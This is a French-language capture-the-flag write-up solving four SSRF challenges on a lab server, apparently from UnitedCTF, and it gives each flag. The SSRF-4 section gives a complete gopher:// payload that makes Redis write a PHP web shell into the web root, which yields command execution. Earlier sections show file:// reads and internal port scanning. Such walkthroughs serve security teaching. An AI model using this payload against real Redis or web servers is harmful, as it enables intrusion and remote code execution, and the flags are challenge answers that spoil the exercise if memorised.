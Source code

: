 # SSRF-1

## Description

Initiation aux Server Side Request Forgery (SSRF) attacks. Lire les instructions données sur `ssrf.unitedctf.ca` attentivement.

## Solution

Tel qu'indiqué dans les consignes, nous devons accéder à /admin.php. Malheureusement, la page s'affiche uniquement si la requête provient de localhost. On peut utiliser le scan pour contourner cette restriction puisque la requête proviendra du serveur lui-même. Il faut donc scanner l'url: `http://localhost/admin.php` pour avoir le premier flag.

## Flag 

`FLAG-2432a0b57e03c3b365296c9ad898bc2a`

<br />

# SSRF-2

## Description

Lire le fichier `/var/www/html/admin.php` sur `ssrf.unitedctf.ca`. Il est fortement recommandé d'avoir réussi SSRF-1 avant de tenter ce challenge.

## Solution

Il est possible d'utiliser le protocole `file` pour lire le fichier. Il faut donc scanner l'url: `file://localhost/var/www/html/admin.php` pour avoir le deuxième flag.

## Flag 

`FLAG-1ad0b1f556c689d0dd4301ca757ce9c3`

<br />

# SSRF-3

## Description

Une application roule à l'interne sur le serveur `ssrf.unitedctf.ca`. Cette application n'est pas accessible de l'externe, mais vous devez trouver sur quel port à l'interne celle-ci écoute. Pour faciliter votre recherche, limitez-vous aux ports `6000` à `6500`. Il est fortement recommandé d'avoir réussi SSRF-2 avant de tenter ce challenge. Le flag est FLAG-md5(port trouvé). Si vous trouvez le port `6123`, le flag serait FLAG-4ca82b2a861f70cd15d83085b000dbde.

## Solution

Il faut écrire un script qui test chaque port entre 6000 et 6500. Tous les ports répondront avec un `Connection refused` à l'exception du port `6379`. Voir [Solveur](./solver3.py) pour l'implémentation de la solution.

## Flag 

`FLAG-92c3b916311a5517d9290576e3ea37ad`

## Annexe

[Solveur](./solver3.py)

<br />

# SSRF-4

## Description

Après avoir complété SSRF-3, vous devriez avoir trouvé un port ouvert à l'intene sur `ssrf.unitedctf.ca`. Vous devez maintenant trouver quelle application écoute sur ce port et l'exploiter afin d'obtenir du `Remote Code Execution` (RCE). Une fois l'exécution de code achevée, exécutez le binaire `/flag` pour obtenir le flag final.

Ce challenge est beaucoup plus difficile que les 3 précédents, mais en cherchant bien sur votre moteur de recherche préféré vous devriez y parevenir! Suivez ces étapes:

1) Trouvez quelle application écoute sur le port trouvé. Une recherche avec le numéro du port devrait être suffisante, c'est une application très populaire.

2) Cherchez comment exploitez l'application à l'aide d'un ssrf. Recherchez `nom_application ssrf cheatsheet`, il devrait y avoir de bon résultats.

3) Exploitez l'application, devenez un master hacker.



## Solution

Il est attendu que le participant aura trouvé que l'application sur le port 6379 est redis par le fait que c'est la seule application très connu sur ce port et par le message d'erreur retourné lors qu'on scan ce port. Une fois découvert, nous pouvions allez lire sur la documentation de redis et voir que la communication avec cette application ce fait en plain text, et la liste de commande que l'on peut lui envoyer se trouve [ici](https://redis.io/commands).

La prochaine étape est de trouver un protocol capable de communiquer avec redis sans problème. HTTP est problématique, car une requète HTTP contient de l'information que redis ne comprendra pas. Par example, une requète curl à l'url `http://localhost:6379/test` enverra:

```
GET /test HTTP/1.1
Host: localhost:6379
User-Agent: curl/7.58.0
Accept: */*
```

Redis ne comprend évidemment aucune de ses lignes. Nous pouvons plutôt utiliser le protocol `gopher`, qui lui envoit strictement les bytes demandés. Ainsi, `gopher://localhost:6379/_test` enverra:
```
test
```

Prenez note que le premier byte après le dernier `/` est ignoré (`_` dans notre cas). Nous pouvons utiliser gopher pour parler avec redis et lui envoyer des commandes arbitraires. Les commandes qui nous intéresse sont:

`flushall` pour travailler avec une base de donnée vide.

`set x "<?php passthru($_GET['cmd']); ?>"` placera notre payload en plain text dans le fichier de la base de donnée.

`config set dir /var/www/html` pour indiqué à redis dans quel directory le fichier de db doit se situé. Nous voulons que celui-ci soit dans /var/www/html pour que nous puissions y avoir accès.

`config set dbfilename my_shell.php` pour setté le nom de notre shell (my_shell.php).

`save` pour sauvegardé le fichier de la db sur le filesystem.

`quit` pour indiquer à redis que la connection est terminé.

Chaque commande doit être séparée par un newline (`\r\n`). Notre payload final est donc:

```
flushall
set x "<?php passthru($_GET['cmd']); ?>"
config set dir /var/www/html
config set dbfilename my_shell.php
save
quit
```

Ce payload doit être url encoded, ce qui donne `flushall%0D%0Aset%20x%20%22%3C%3Fphp%20passthru%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%22%0D%0Aconfig%20set%20dir%20%2Fvar%2Fwww%2Fhtml%0D%0Aconfig%20set%20dbfilename%20my_shell.php%0D%0Asave%0D%0Aquit`

Nous ajoutons le payload à la requête gopher, sans oublier d'ajouter le byte ignoré: `gopher://localhost:6379/_flushall%0D%0Aset%20x%20%22%3C%3Fphp%20passthru%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%22%0D%0Aconfig%20set%20dir%20%2Fvar%2Fwww%2Fhtml%0D%0Aconfig%20set%20dbfilename%20my_shell.php%0D%0Asave%0D%0Aquit`

Une fois l'url scanné, il est possible d'accéder à notre shell à `http://ssrf.unitedctf.ca/my_shell.php`. Nous pouvons exécuter des commandes arbitraires avec le paramètre `cmd`: `http://ssrf.unitedctf.ca/my_shell.php?cmd=/flag`

Plutôt que de le faire à la main, vous pouvez également utiliser [Gophereus](https://github.com/tarunkant/Gopherus), qui permet de générer plusieurs payloads SSRF contre différentes applications (dont redis).

## Flag 

`FLAG-a0577776397de8ec3b216514a0930f47`
